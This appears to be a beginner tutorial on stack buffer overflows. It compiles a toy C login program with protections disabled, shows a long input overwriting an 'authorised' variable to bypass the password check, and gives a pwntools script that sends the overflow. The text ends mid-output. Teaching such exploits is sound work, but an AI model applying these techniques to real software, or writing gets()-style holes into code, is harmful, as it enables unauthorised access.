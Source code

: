 ```shell
gcc login.c -o login -fno-stack-protector -z execstack -no-pie
```
We enter a random password and we get incorrect password and we failed to login as Admin
```shell
~/Documents/coding/c$ ./login
Enter admin password: 
12313
Incorrect Password!
Failed to log in as Admin (authorised=0) :(
```

## overwriting local variables in the stack
Let's try entering a long random data and see what's happens
```shell
~/Documents/coding/c$ ./login
Enter admin password: 
abcdefg
Incorrect Password!
Successfully logged in as Admin (authorised=103) :)
```
We successfully logged in with a wrong password.The authorised variable is set to 103  which is the decimal value of the ascii character g. Our character from the code should only hold a maximum of 6 characters.

```c
char password[6];
```

Since we are using a dangerous method `gets()` it does not check whether the user input will fit inside the 6 byte `char[]`. Since the authorised variable is below the password array in the stack it will be the one that will be overwritten first after the buffer of 6 characters if filled. 
```c
char password[6];
int authorised = 0;
```
The if condition checks if authorised is not equal to zero and since it was overwritten to 103 it will return true and hence we will log in successfully without the correct password
```c
if(authorised) {
    printf("Successfully logged in as Admin (authorised=%d) :)\n", authorised);
}else{
	printf("Failed to log in as Admin (authorised=%d) :(\n", authorised);
}
```
Let's try using a pwn script to exploit this code
```python
from pwn import *

# execute the program locally
io = process('./login')

# debug the program and see whats being send and received 
context.log_level = "debug"

# send our string to overflow the buffer after the last colon Enter admin password:
io.sendlineafter(b':', b'abcdefg')

# Receive the output from the program
print(io.recvall().decode())

```
Let's run the script and automatically exploit the buffer overflow
```shell
~/Documents/coding/c$ python3 buffer.py
[+] Starting local process './login': pid 33611
[DEBUG] Received 0x17 bytes:
```